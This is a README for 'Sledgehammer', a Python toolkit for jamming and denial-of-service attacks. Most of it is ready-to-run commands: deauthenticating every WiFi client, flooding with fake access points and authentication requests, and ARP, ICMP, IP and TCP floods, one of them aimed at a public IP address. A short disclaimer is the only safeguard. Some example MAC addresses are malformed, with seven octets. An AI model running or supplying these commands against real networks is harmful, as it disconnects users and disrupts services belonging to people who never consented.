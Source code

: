 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp

### Requirements
- [Python 3.x](https://www.python.org/)
- [Pypacker](https://github.com/mike01/pypacker) ('pip install pypacker' or clone and 'python setup.py install')
- [iwconfig](http://www.hpl.hp.com/personal/Jean_Tourrilhes/Linux/Tools.html) (wireless-tools)

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.
Default source MAC and IP address is the one of the interface given by 'iface_name'.

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients except '00:11:22:33:44:55'

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --nobroadcast --macs_excluded 00:11:22:33:44:55 --count 9999

- WiFi DoS via mass fake APs

  python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth

  python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP

  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP

  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP

  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP

  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.
